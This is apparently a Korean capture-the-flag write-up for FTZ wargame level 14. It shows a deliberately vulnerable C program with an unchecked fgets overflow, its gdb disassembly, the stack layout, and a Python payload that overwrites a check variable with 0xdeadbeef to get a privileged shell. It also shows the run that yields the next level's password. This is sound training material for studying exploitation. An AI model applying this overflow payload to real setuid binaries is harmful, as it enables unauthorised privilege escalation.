 # **FTZ LEVEL14**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
#include <unistd.h>
 
main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```
`fgets( )`에서 **overflow**가 일어나고 if문에서 `deadbeef` 를 검사한다.

gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x08048490 <main+0>:	push   ebp
0x08048491 <main+1>:	mov    ebp,esp
0x08048493 <main+3>:	sub    esp,0x38
0x08048496 <main+6>:	sub    esp,0x4
0x08048499 <main+9>:	push   ds:0x8049664
0x0804849f <main+15>:	push   0x2d
0x080484a1 <main+17>:	lea    eax,[ebp-56]
0x080484a4 <main+20>:	push   eax
0x080484a5 <main+21>:	call   0x8048360 <fgets>
0x080484aa <main+26>:	add    esp,0x10
0x080484ad <main+29>:	cmp    DWORD PTR [ebp-16],0xdeadbeef
0x080484b4 <main+36>:	jne    0x80484db <main+75>
0x080484b6 <main+38>:	sub    esp,0x8
0x080484b9 <main+41>:	push   0xc17
0x080484be <main+46>:	push   0xc17
0x080484c3 <main+51>:	call   0x8048380 <setreuid>
0x080484c8 <main+56>:	add    esp,0x10
0x080484cb <main+59>:	sub    esp,0xc
0x080484ce <main+62>:	push   0x8048548
0x080484d3 <main+67>:	call   0x8048340 <system>
0x080484d8 <main+72>:	add    esp,0x10
0x080484db <main+75>:	leave  
0x080484dc <main+76>:	ret    
0x080484dd <main+77>:	lea    esi,[esi]
End of assembler dump.
```
`main+17` 에서 `buf` 를 불러온다.  
`buf` 의 시작은 `ebp-56` 인 것을 알 수 있다.  
`main+29` 에서 `ebp-16`과 `deadbeef` 를 비교하므로 `ebp-16`부분에 `deadbeef` 를 넣으면 쉘을 획득할 수 있다.
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[20] | dummy[20] | deadbeef | dummy[12] | sfp | ret |
```

>Payload
```
(python -c "print 'A'*40+'\xef\xbe\xad\xde'";cat) | ./attackme
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level14@ftz level14]$ (python -c "print 'A'*40+'\xef\xbe\xad\xde'";cat) | ./attackme 
my-pass

Level15 Password is "~~~~~~~~~".
```